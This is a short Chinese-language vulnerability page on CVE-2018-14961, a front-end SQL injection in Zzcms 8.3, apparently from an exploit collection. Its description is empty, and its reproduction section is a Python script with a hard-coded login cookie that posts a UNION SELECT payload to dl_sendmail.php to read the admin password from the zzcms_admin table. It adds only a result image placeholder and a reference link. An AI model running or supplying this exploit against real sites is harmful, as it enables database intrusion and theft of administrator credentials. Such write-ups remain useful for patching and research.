（CVE-2018-14961）Zzcms 8.3 前台sql注入
=======================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

    #!/usr/bin/env python
    #Author:Sublime
    #coding:utf-8
    import requests as req

    url = "http://0-sec.org:8080/dl/dl_sendmail.php"
    cookies = {'UserName':'test','PassWord':'81dc9bdb52d04dc20036dbd8313ed055'}
    data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

    q = req.post(url,data,cookies=cookies,allow_redirects=False)
    print q.status_code
    print q.content

测试结果为：

![](./resource/(CVE-2018-14961)Zzcms8.3前台sql注入/media/rId24.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>
